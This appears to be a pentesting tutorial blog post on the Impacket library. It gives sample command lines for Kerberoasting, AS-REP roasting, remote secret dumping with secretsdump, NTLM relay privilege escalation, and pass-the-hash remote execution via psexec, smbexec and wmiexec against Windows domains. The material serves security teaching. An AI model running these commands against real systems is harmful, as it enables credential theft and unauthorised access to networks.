 ```yaml
---
layout: post
published: true
title: Windows Exploitation 11.1
tags:
  - PWP
  - Intermediate
  - Windows Exploitation
comments: true
---
```

## Impacket in Action


## Introduction 

In this blog post we will learn about Impacket library, and its usage during pentesting, we will also discuss some of the useful tools of this library.
This post is for those who know the basics of Active Directory and Windows Administration Services. If you're new, please do a google search if you feel uncomfortable.



**Impacket**

https://github.com/SecureAuthCorp/impacket.git

Clone the repo

```
git clone https://github.com/SecureAuthCorp/impacket.git
```

**Impacket** is a collection of Python classes for working with network protocols. Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself. Packets can be constructed from scratch, as well as parsed from raw data, and the object oriented API makes it simple to work with deep hierarchies of protocols. The library provides a set of tools as examples of what can be done within the context of this library.





**What protocols are featured?**

* Ethernet, Linux "Cooked" capture.
* IP, TCP, UDP, ICMP, IGMP, ARP.
* IPv4 and IPv6 Support.
* NMB and SMB1, SMB2 and SMB3 (high-level implementations).
* MSRPC version 5, over different transports: TCP, SMB/TCP, SMB/NetBIOS, and HTTP.
* Plain, NTLM, and Kerberos authentications, using password/hashes/tickets/keys.
* Portions/full implementation of the following MSRPC interfaces: EPM, DTYPES, LSAD, LSAT, NRPC, RRP, SAMR, SRVS, WKST, SCMR, BKRP, DHCPM, EVEN6, MGMT, SASEC, TSCH, DCOM, WMI.
* Portions of TDS (MSSQL) and LDAP protocol implementations.


```
pip install -r requirements.txt
```

```
python setup.py install
```

You can find any of the impacket tools in '/impacket/examples' file.

**Explanation**

**addcomputer.py:** Allows to add a computer to a domain using LDAP or SAMR (SMB).

```
addcomputer.py -method SAMR -computer-pass <PASSWORD> -computer-name <NAME> DOMAIN/USER:PASSWORD
```
We have added a new computer using SAMR(Security Account Manager (SAM) Remote Protocol (Client-to-Server)) to a domain.


**GetUserSPNs.py**: This example will try to find and fetch Service Principal Names that are associated with normal user accounts. The output is compatible with JtR and HashCat.


If we found any user accounts configured with the unconstrained delegation, we can obtain its Kerberos tickets and can try to crack that ticket.

```
GetUserSPNs.py DOMAIN/USER:PASSWORD -request-user <UNCONSTRAINED_USER>
```

**GetNPUsers.py:** This example will attempt to list and get TGTs for those users that have the property 'Do not require Kerberos preauthentication' set (UF_DONT_REQUIRE_PREAUTH). The output is compatible with JtR.

```
GetNPUsers.py DOMAIN/USER -dc-ip 10.10.10.161 (TargetIP)
```

**secretdump.py**
Performs various techniques to dump secrets from the remote machine without executing any agent there.


```
secretsdump.py  DOMAIN/USER:PASSWORD@<VictimIP>
```
```
secretsdump Empire/locus:brokeme@198.162.0.1
```

**ntlmrelayx.py:** This script performs NTLM Relay Attacks, setting an SMB and HTTP Server and relaying credentials to many different protocols (SMB, HTTP, MSSQL, LDAP, IMAP, POP3, etc.). The script can be used with predefined attacks that can be triggered when a connection is relayed (e.g. create a user through LDAP) or can be executed in SOCKS mode. In this mode, for every connection relayed, it will be available to be used later on multiple times through a SOCKS proxy.


```
ntlmrelayx.py --escalate-user username -t ldap://DOMAIN_CONTROLLER
```


```
ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user svc-alfresco
```

**psexec.py**: it is used to perform remote code execution, it executes processes on remote systems and redirects console applications' output to the local system so that these applications appear to be running locally.


```
psexec.py -hashes <LM hash>  domain/user@<TargetIP> 
```
```
psexec.py -hashes :73ry4923rho24jr2jeor2po3j Empire/administrator@192.168.10.16 powershell.exe
```

**smbexec.py**: It focuses on using native windows functions/features for post-exploitation and expanding access on a network after you gain some credentials, whether that be a hash or password for a local or domain account. It's similar to psexec.

```
smbexec.py Empire/administrator@192.168.10.16
```

You can also use hash.


**wmiexec.py:** A semi-interactive shell, used through Windows Management Instrumentation. It does not require to install any service/agent at the target server. Runs as Administrator. Highly stealthy.

```
wmiexec.py 'Empire/administrator@192.168.10.16'
```






## Conclusion

_**We have discussed some tools with their basic usage that will help us in Exploitation and Post Exploitation phases, I recommend you to read resources I have given below**_




Somre refference link :

``
https://www.secureauth.com/labs/open-source-tools/impacket
``

``
http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html
``

``
https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/
``
